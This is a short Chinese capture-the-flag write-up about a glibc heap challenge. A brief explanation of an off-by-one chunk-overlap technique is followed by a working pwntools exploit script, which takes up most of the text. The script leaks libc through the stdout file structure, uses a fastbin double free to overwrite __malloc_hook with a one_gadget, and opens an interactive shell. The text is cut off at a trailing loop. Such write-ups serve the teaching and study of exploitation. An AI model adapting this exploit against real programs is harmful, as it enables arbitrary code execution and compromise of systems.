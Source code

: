 核心是堆块的布局，通过off-by-one修改堆块的大小来造成堆块的堆叠(smallbin和fastbin重叠)。具体构造见exp。

泄露之后既可以通过double free来劫持\_\_malloc\_hook（exp1），也可以故技重施来劫持\_\_malloc\_hook(exp2)，最后在申请一次堆块就能getshell

比较关键的点：add(2,0x50,'\xdd\xb5')，这里虽然申请0x60大小的堆，但由于unsortedbin中的堆块大小为0x70，glibc为了防止碎片过多malloc到的堆块大小为0x70。



exp1

```python
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget=[0x45226,0x4527a,0xf0364,0xf1207]
def add(index,size,content='\x00'):
	p.sendlineafter('>>>\n','1')
	p.sendlineafter('idx:\n',str(index))
	p.sendlineafter('len:\n',str(size))
	p.sendafter('content:\n',content)

def delete(index):
	p.sendlineafter('>>>\n','2')
	p.sendlineafter('idx:\n',str(index))

def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def pwn():
	add(0,0x20)
	add(1,0x20)
	add(2,0x60)
	add(3,0x20)
	delete(0)
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x20)
	add(2,0x50,'\xdd\xb5')
	add(4,0x60)
	add(5,0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	
#=========================leak=============================
	p.recv(0x40)
	leak = u64(p.recv(8))
	libcbase = leak - 0x3c5600
	malloc_hook = libcbase + libc.sym['__malloc_hook']
	one = libcbase + one_gadget[3]
	pr('libcbase',libcbase)
	
#==========================================================
	add(6,0x60)
	delete(2)
	delete(6)
	delete(4)
	add(7,0x60,p64(malloc_hook-0x23))
	add(8,0x60)
	add(9,0x60)
	add(10,0x60,'a'*0x13+p64(one))
	#gdb.attach(p)

	p.interactive()

while True:
```